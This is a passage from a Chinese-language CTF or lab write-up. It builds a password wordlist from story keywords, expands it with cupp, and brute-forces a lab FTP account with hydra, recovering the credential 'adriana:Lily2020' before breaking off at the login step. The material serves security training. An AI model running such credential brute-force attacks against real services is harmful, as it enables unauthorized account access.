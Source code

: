 服务器返回了一段小故事。根据渗透测试的常见思路，故事中的名词很可能被用作密码。我们提取这些关键词，并使用 `cupp` 工具生成一个更丰富的密码字典，然后使用 `hydra` 对之前发现的 FTP 用户 `adriana` 进行密码爆破。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ cat wordlist.txt
Lily
curious
key
woods
village
well
stone
passage
chest
treasures
treasure
journey
prize
adventure
reward
rusty
locked
hidden
ancient
greatest
LostKey
TheLostKey
thelostkey
lostkey

┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ cupp -w wordlist.txt
...

┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ hydra -l adriana -P wordlist.txt.cupp.txt ftp://192.168.205.138:23333 -t 64
...
[23333][ftp] host: 192.168.205.138   login: adriana   password: Lily2020
[STATUS] attack finished for 192.168.205.138 (valid pair found)
...
```

成功爆破出 FTP 凭证：`adriana:Lily2020`。

# 三、横向移动与权限提升

## 3.1 登录FTP并发现私钥

使用破解的凭证登录FTP服务。
